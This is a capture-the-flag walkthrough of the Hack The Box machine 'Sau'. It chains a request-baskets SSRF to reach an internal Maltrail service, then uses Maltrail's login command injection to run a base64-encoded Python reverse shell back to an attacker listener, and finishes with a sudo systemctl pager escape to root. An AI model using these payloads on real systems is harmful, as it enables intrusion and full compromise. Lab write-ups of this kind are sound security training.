






<h1>HTB: Sau</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Sau)          |
| Difficulty | Easy                                                             |
| OS         | Linux                                                            |
| Author     | ByteFragment                                                     |
| Date       | October 16th 2026                                                  |

--- 

<h2>Enumeration</h2>

Before we do anything lets create three files:

1. <b>credentials.txt</b> where we will store valid username/passwd combinations
2. <b>users.txt</b> where we will store all usernames we come across
3. <b>pass.txt</b> where we will store all passwords we come across

Having separate files for usernames and passwords in addition to a valid credentials file helps us enumerate for things like password reuse if applicable.


<h3>NMAP</h3>

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.46.255 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

From the nmap results, we can see that the target machine is running an SSH server on port 22 and an GoLang based HHTP server on port 5555: 

```
map scan report for sau.htb (10.129.229.26)
Host is up (0.088s latency).
Not shown: 65328 closed tcp ports (reset), 205 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  http    Golang net/http server
|_http-title: Did not follow redirect to /web
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 17 Oct 2026 04:07:34 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 17 Oct 2026 04:07:17 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 17 Oct 2026 04:07:18 GMT
|     Content-Length: 0
|   OfficeScan: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header

```

<h3>Web Recon</h3>

After adding `Sau.htb` to our /etc/hosts file we can visit the URL using Firefox, specifying we want to visit port 55555:



Here we are greeted with the homepage for the `request-basket` service running version `1.2.1`. It looks like we can create a `New Basket` and "collect and inspect HTTP requests".
Now that we know the service and its version we can search online for any known vulnerabilities. In this case we find that this version of the `request-basket` service is vulnerable to an SSRF vulnerability as identified in [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/cve-2023-27163).

<h2>Exploitation</h2>

 Lets open the webpage in the `BurpSuite Browser` and intercept the create basket traffic to gain some more information about its mechanics. 

Here we can see that upon clicking the Create button the service sends a POST request to `/api/basket/BASKET_NAME` and returns an authorization token:



Based on this [blog](https://notes.sjtu.edu.cn/s/MUUhEymt7) post we can exploit the SSRF vulnerability by adding the following data payload to our request:

```
{
  "forward_url": "http://127.0.0.1:80/",
  "proxy_response":true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```

So what does this do?

Well when we send this POST request a new basket will be created same as before, but this time we have set the `forward_url` parameter to `127.0.0.1:80` and the `proxy_response` parameter set to `true` in the POST data body. This means that when we visit the basket at `http://sau.htb:55555/BASKET_NAME` our request will be forwarded to whatever is running on localhost port 80 on the web server.



Now that we've created the basket we can visit `http://sau.htb:55555/test` in the browser:



This internal webpage is running `Maltrail (v0.53)`, a malicious traffic detection system. A quick google search reveals that this version contains an RCE vulnerability as detailed in [CVE-2025-34073](https://www.sentinelone.com/vulnerability-database/cve-2025-34073/). This vulnerability will allow us to "execute arbitrary operating system commands via the username parameter in a POST request to the /login endpoint".

<h2>Foothold</h2>

Let's use this to gain a reverse shell on the target system. 

There us a [POC](https://github.com/spookier/Maltrail-v0.53-Exploit/tree/main) script available for this CVE but let's exploit it manually to get a better idea of what happening.

We first need to get our reverse shell payload which we can retrieve from [revshells](https://www.revshells.com), in this case we will be using a Base64 encoded python payload:



Lets create our NetCat Listener using the command `nc -lvnp 1234` and construct our curl command with our new payload:

```
curl 'http://sau.htb:55555/test/login' --data 'username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE1LjI0OSIsMTIzNCkpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oIi9iaW4vc2giKSc="+|+base64+-d+|+sh`'
```

Let's break down what this payload is doing. It begins by specifying the username parameter but we immediately break out of the intended command context using the `;` character so all command that follow are executed as shell commands. We then echo our Base64 encoded payload and pip `|` it into the `base64 -d` which decodes it, and finally we pipe `|` that into `sh` to execute it. 

Making sure our listener is running we can execute our curl command to gain a reverse shell ! :



We have gained a shell as the user `puma` and the user flag can be found in `/home/puma` . 

<h2>Escalation</h2>

Now that we have user access to the target machine we can try to escalate our privileges to root. Running the `sudo -l` command will give us all the command that the `puma` user can run using sudo. 

```
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

This tells us that we can run the command `/usr/bin/systemctl status trail.service` using sudo. 

We can check the version of `systemd` that is installed on the system using `systemctl --version` :

```
$ systemctl --version
systemctl --version
systemd 245 (245.4-4ubuntu3.22)
+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD +IDN2 -IDN +PCRE2 default-hierarchy=hybrid
```

This tells us that the version is `systemd 245 (245.4-4ubuntu3.22)`. Searching online we find that this version has a local root privilege escalation vulnerablity as defined in `CVE-2023-26604`. This [PacketStorm](https://packetstorm.news/files/id/174130) blog provides clear directions on how to exploit this vulnerability. 

We first need to run `sudo /usr/bin/systemctl status trail.service` which will ouput a pager where we can simply type `!/bin/sh` and gain a root shell : 

```
$ sudo /usr/bin/systemctl status trail.service                   
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/sh
!//bbiinn//sshh!/bin/sh
# whoami
whoami
root
# 
```

We can find the root flag in the /root directory thus solving the challenge:


